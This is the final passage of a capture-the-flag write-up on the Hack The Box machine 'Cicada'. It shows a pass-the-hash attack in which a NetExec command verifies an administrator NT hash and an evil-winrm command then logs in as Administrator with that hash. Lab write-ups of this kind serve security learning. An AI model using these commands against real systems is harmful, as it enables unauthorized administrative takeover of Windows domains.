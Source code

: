 Now we have the whole domain dump with us, we also have the administrator hash, now we can do pass the hash to claim administrator.

### Shell as Administrator

Using NetExec to confirm that we have the correct NT hash for the administrator.

```bash
nxc ldap cicada.htb -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![image.png](/assets/images/Cicada_HTB/image%2035.png)

Hence we have administrator access to the system.

Using Evil-winrm to login.

```bash
evil-winrm -i cicada.htb -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

![image.png](/assets/images/Cicada_HTB/image%2036.png)

Thanks for reading 😄

![image.png](/assets/images/Cicada_HTB/image%2037.png)
